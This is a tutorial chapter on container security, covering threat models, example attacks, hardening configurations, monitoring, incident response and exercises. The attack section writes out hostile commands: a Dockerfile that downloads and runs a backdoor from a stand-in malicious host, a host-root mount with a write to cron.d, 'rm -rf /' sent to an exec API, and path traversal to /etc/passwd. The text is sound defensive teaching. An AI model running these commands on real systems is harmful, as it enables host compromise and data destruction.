

# Container Security

## Overview

Container security is critical in modern infrastructure, as containers introduce unique attack surfaces and vulnerabilities. This chapter explores common container attacks, security threats, and comprehensive mitigation strategies. Understanding these security concepts is essential for building secure containerized applications in your custom Linux distribution.

## Container Threat Modeling

### Attack Surface Analysis

**Container Attack Surfaces:**

- **Host Kernel**: Shared kernel vulnerabilities
- **Container Runtime**: Docker daemon, containerd, etc.
- **Container Images**: Base images, application layers
- **Orchestration Layer**: Kubernetes, Docker Swarm
- **Network Interfaces**: Container networking
- **Volumes and Storage**: Persistent data access

**Threat Actors:**

- **External Attackers**: Network-based attacks
- **Malicious Insiders**: Authorized users abusing privileges
- **Supply Chain Attacks**: Compromised images or dependencies
- **Lateral Movement**: Container-to-container attacks

### STRIDE Threat Model

**Spoofing:** Authentication and authorization bypass
**Tampering:** Data modification in transit or at rest
**Repudiation:** Denying actions or transactions
**Information Disclosure:** Unauthorized data access
**Denial of Service:** Resource exhaustion attacks
**Elevation of Privilege:** Gaining higher access levels

## Common Container Attacks

### Attack 1: Privilege Escalation via Mounts

**Description:**
Attackers exploit privileged containers or misconfigured volume mounts to access host filesystem.

**Example Attack:**

```bash
# Attacker gets shell in privileged container
docker run --privileged -v /:/host ubuntu bash

# Inside container, attacker can access host files
ls /host/etc/passwd
echo "malicious" > /host/etc/cron.d/malicious
```

**Real-World Impact:**

- Host system compromise
- Persistent malware installation
- Data theft or destruction

### Attack 2: Container Escape via Kernel Exploits

**Description:**
Exploiting kernel vulnerabilities to break out of container isolation.

**Example Attack:**

```bash
# Using Dirty COW (CVE-2016-5195) or similar kernel exploits
# Attacker runs exploit inside container
./dirtycow-exploit /host/etc/passwd

# Gains root access on host
whoami  # Shows root on host system
```

**Detection:**

```bash
# Monitor for unusual kernel activity
dmesg | grep -i "exploit\|vulnerability"

# Check container capabilities
docker inspect container | grep -A 10 CapAdd
```

### Attack 3: Image Tampering and Supply Chain Attacks

**Description:**
Malicious code injected into container images during build or distribution.

**Example Attack:**

```bash
# Malicious Dockerfile
FROM ubuntu:20.04
RUN apt-get update && \
    wget http://malicious-site.com/backdoor && \
    chmod +x backdoor && \
    ./backdoor &
COPY app /app
CMD ["python", "/app/main.py"]
```

**Supply Chain Compromise:**

```bash
# Attacker compromises base image
docker pull ubuntu:20.04  # Already compromised
docker build -t myapp .
docker push myapp  # Distributes malware
```

### Attack 4: Network-Based Attacks

**Description:**
Exploiting container networking for lateral movement or data exfiltration.

**Example Attack:**

```bash
# Container scanning internal network
docker run --network host nmap -sV 192.168.1.0/24

# DNS rebinding attack
curl http://evil.com.tld.internal.corp/

# ARP poisoning between containers
arpspoof -i eth0 -t victim_container gateway
```

### Attack 5: Runtime Attacks

**Description:**
Attacking running containers through exposed ports or misconfigurations.

**Example Attack:**

```bash
# SQL injection through exposed database port
curl "http://container:3306/?query=DROP%20TABLE%20users"

# Remote code execution via vulnerable web app
curl -X POST http://container:8080/api/exec \
  -d '{"command": "rm -rf /"}'

# Log poisoning leading to log injection
curl "http://container:80/?input=../../etc/passwd%00"
```

### Attack 6: Side-Channel Attacks

**Description:**
Extracting sensitive information through timing, power, or cache analysis.

**Example Attack:**

```bash
# Timing attack on cryptographic operations
time curl http://container:8080/decrypt?key=guess1
time curl http://container:8080/decrypt?key=guess2

# Cache side-channel (Flush+Reload)
# Attacker monitors cache timing to extract encryption keys
```

## Vulnerability Classes

### CVEs in Container Components

**Runtime Vulnerabilities:**

- **CVE-2019-5736**: runC container escape
- **CVE-2020-15257**: containerd privilege escalation
- **CVE-2021-25741**: Kubernetes privilege escalation

**Image Vulnerabilities:**

- **Base Image CVEs**: Outdated packages in Ubuntu/Alpine
- **Dependency Confusion**: Malicious packages with same name
- **Typosquatting**: Similar package names

### Configuration Vulnerabilities

**Insecure Defaults:**

```yaml
# INSECURE: Privileged container
apiVersion: v1
kind: Pod
spec:
  containers:
    - name: app
      image: myapp
      securityContext:
        privileged: true # Dangerous!
```

**Misconfigured Security Context:**

```yaml
# INSECURE: Root user with host mounts
spec:
  containers:
    - name: app
      image: myapp
      securityContext:
        runAsUser: 0 # Root user
      volumeMounts:
        - name: host-root
          mountPath: /host
```

## Mitigation Strategies

### Defense 1: Image Security

**Secure Base Images:**

```dockerfile
# Use minimal, verified base images
FROM alpine:3.16

# Avoid latest tag
FROM ubuntu:20.04@sha256:123456...

# Multi-stage builds to reduce attack surface
FROM golang:1.19 AS builder
WORKDIR /app
COPY . .
RUN go build -o app .

FROM alpine:3.16
COPY --from=builder /app/app /app/
USER nobody
CMD ["/app/app"]
```

**Image Scanning:**

```bash
# Scan images for vulnerabilities
docker scan myapp

# Trivy scanning
trivy image myapp:latest

# Clair integration
clairctl analyze myapp:latest
```

**Image Signing and Verification:**

```bash
# Docker Content Trust
export DOCKER_CONTENT_TRUST=1
docker pull myapp:latest  # Verifies signature

# Cosign signing
cosign sign myregistry.com/myapp:latest
cosign verify myregistry.com/myapp:latest
```

### Defense 2: Runtime Security

**Security Contexts:**

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: secure-pod
spec:
  securityContext:
    runAsUser: 1000
    runAsGroup: 1000
    fsGroup: 1000
  containers:
    - name: app
      image: myapp
      securityContext:
        allowPrivilegeEscalation: false
        readOnlyRootFilesystem: true
        capabilities:
          drop:
            - ALL
          add:
            - NET_BIND_SERVICE
      resources:
        limits:
          cpu: 100m
          memory: 128Mi
        requests:
          cpu: 50m
          memory: 64Mi
```

**Pod Security Standards:**

```yaml
# Pod Security Admission
apiVersion: v1
kind: Pod
metadata:
  name: restricted-pod
  labels:
    pod-security.kubernetes.io/enforce: restricted
spec:
  securityContext:
    runAsNonRoot: true
    seccompProfile:
      type: RuntimeDefault
  containers:
    - name: app
      securityContext:
        allowPrivilegeEscalation: false
        capabilities:
          drop: ["ALL"]
```

### Defense 3: Network Security

**Network Policies:**

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: app-network-policy
spec:
  podSelector:
    matchLabels:
      app: myapp
  policyTypes:
    - Ingress
    - Egress
  ingress:
    - from:
        - podSelector:
            matchLabels:
              app: frontend
      ports:
        - protocol: TCP
          port: 8080
  egress:
    - to:
        - podSelector:
            matchLabels:
              app: database
      ports:
        - protocol: TCP
          port: 5432
```

**Service Mesh Security:**

```yaml
# Istio Authorization Policy
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: app-policy
  namespace: default
spec:
  selector:
    matchLabels:
      app: myapp
  rules:
    - from:
        - source:
            principals: ["cluster.local/ns/default/sa/frontend"]
      to:
        - operation:
            methods: ["GET"]
            paths: ["/api/*"]
```

### Defense 4: Secrets Management

**Secure Secret Handling:**

```yaml
# Kubernetes Secrets with encryption
apiVersion: v1
kind: Secret
metadata:
  name: app-secrets
type: Opaque
data:
  password: <base64-encoded>
---
apiVersion: v1
kind: Pod
spec:
  containers:
    - name: app
      env:
        - name: DB_PASSWORD
          valueFrom:
            secretKeyRef:
              name: app-secrets
              key: password
```

**External Secret Stores:**

```bash
# HashiCorp Vault integration
vault kv put secret/myapp db_password="secret123"

# Application retrieves secrets
curl -H "X-Vault-Token: $VAULT_TOKEN" \
     $VAULT_ADDR/v1/secret/myapp | jq -r .data.db_password
```

### Defense 5: Monitoring and Detection

**Runtime Security Monitoring:**

```bash
# Falco rules for container security
- rule: Privileged Container
  desc: Detect privileged container creation
  condition: container.privileged=true
  output: Privileged container created (user=%user.name container=%container.name)
  priority: WARNING

- rule: Sensitive File Access
  desc: Detect access to sensitive files
  condition: open_read and fd.filename=/etc/shadow
  output: Sensitive file accessed (user=%user.name file=%fd.filename)
  priority: CRITICAL
```

**Audit Logging:**

```bash
# Enable container runtime auditing
docker daemon --log-driver=syslog --log-opt syslog-address=tcp://auditor:514

# Kubernetes audit policy
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
- level: Metadata
  resources:
  - group: ""
    resources: ["pods"]
  verbs: ["create", "update", "patch"]
```

## Advanced Security Techniques

### gVisor and Kata Containers

**gVisor Security:**

```bash
# Run containers with gVisor
docker run --runtime=runsc nginx

# gVisor provides additional isolation
# Intercepts syscalls and runs them in userspace
```

**Kata Containers:**

```bash
# Hardware-virtualized containers
docker run --runtime=kata-runtime nginx

# Each container runs in its own VM
# Maximum isolation but higher resource usage
```

### SELinux/AppArmor Integration

**Container SELinux Policies:**

```bash
# Run with custom SELinux type
docker run --security-opt label:type:container_t nginx

# SELinux prevents container escapes
semanage fcontext -a -t container_file_t "/var/lib/docker/.*"
```

**AppArmor Profiles:**

```bash
# Docker AppArmor profile
docker run --security-opt apparmor=docker-default nginx

# Custom profile
apparmor_parser -r /etc/apparmor.d/docker-nginx
```

### Supply Chain Security

**Software Bill of Materials (SBOM):**

```bash
# Generate SBOM
syft packages myapp:latest -o json > sbom.json

# Scan for vulnerabilities
grype sbom:sbom.json
```

**Binary Authorization:**

```bash
# Google Binary Authorization
gcloud builds submit --config cloudbuild.yaml \
  --substitutions _IMAGE_NAME=myapp .

# Only signed images can be deployed
```

## Incident Response

### Container Compromise Response

**Immediate Actions:**

```bash
# Isolate compromised container
docker pause compromised_container

# Stop all containers from same image
docker ps -q --filter ancestor=compromised_image | xargs docker stop

# Remove compromised images
docker rmi compromised_image

# Rotate all secrets
kubectl delete secret compromised-secrets
```

**Forensic Analysis:**

```bash
# Capture container logs
docker logs compromised_container > forensic_logs.txt

# Inspect container filesystem
docker export compromised_container > container.tar
tar -tf container.tar | head -20

# Check host system integrity
find /var/lib/docker -mtime -1 -type f
```

### Recovery Procedures

**Clean Deployment:**

```bash
# Deploy from known good image
docker pull registry.com/myapp:known_good

# Update base images
docker build --no-cache -t myapp:new .

# Rolling update
kubectl rollout restart deployment/myapp
```

## Security Testing

### Container Security Scanning

**Static Analysis:**

```bash
# Dockerfile security scan
dockerfile-securityscan Dockerfile

# Check for security issues
hadolint Dockerfile
```

**Dynamic Testing:**

```bash
# Container security testing
docker run --rm -v /var/run/docker.sock:/var/run/docker.sock \
  goodwithtech/dockle myapp:latest

# Runtime security testing
docker run --rm -it \
  --net container:test_container \
  rflathers/container-security-test
```

### Penetration Testing

**Container Escape Testing:**

```bash
# Test privilege escalation
docker run --rm -it \
  --cap-add SYS_ADMIN \
  escape-test:latest

# Network breakout testing
docker run --rm -it \
  --network host \
  network-escape-test:latest
```

## Security Workflow Diagram



## Exercises

### Exercise 1: Vulnerability Assessment

1. Scan a container image for vulnerabilities
2. Identify CVEs in base images
3. Check for outdated packages
4. Generate security report
5. Plan remediation steps

**Expected Outcome**: Comprehensive vulnerability assessment report

### Exercise 2: Secure Container Configuration

1. Create a pod with security context
2. Implement resource limits
3. Drop unnecessary capabilities
4. Use read-only root filesystem
5. Test security measures

**Expected Outcome**: Securely configured container

### Exercise 3: Network Security Implementation

1. Create network policies for pod communication
2. Implement service mesh security
3. Test network isolation
4. Monitor network traffic
5. Detect and block unauthorized access

**Expected Outcome**: Secure container networking

### Exercise 4: Runtime Attack Simulation

1. Attempt privilege escalation in a container
2. Try container escape techniques
3. Test network breakout attacks
4. Implement detection and prevention
5. Document attack vectors and defenses

**Expected Outcome**: Understanding of runtime attack prevention

### Exercise 5: Incident Response Practice

1. Simulate container compromise
2. Execute incident response procedures
3. Perform forensic analysis
4. Implement recovery measures
5. Update security policies

**Expected Outcome**: Effective incident response capabilities

### Exercise 6: Supply Chain Security

1. Implement image signing
2. Set up SBOM generation
3. Configure binary authorization
4. Test supply chain attacks
5. Verify secure deployment pipeline

**Expected Outcome**: Secure container supply chain

### Exercise 7: Advanced Security Features

1. Implement gVisor or Kata Containers
2. Configure SELinux for containers
3. Set up AppArmor profiles
4. Test hardware-assisted security
5. Benchmark security vs performance

**Expected Outcome**: Advanced container security implementation

## Next Steps

Container security is an ongoing process that requires continuous monitoring, testing, and improvement. The concepts covered in this chapter provide a foundation for securing containerized applications in your custom Linux distribution.

## References

- OWASP Container Security: https://owasp.org/www-project-container-security/
- NIST Container Security: https://csrc.nist.gov/publications/detail/sp/800-190/final
- Kubernetes Security: https://kubernetes.io/docs/concepts/security/
- Docker Security: https://docs.docker.com/engine/security/
- CIS Docker Benchmarks: https://www.cisecurity.org/benchmark/docker/
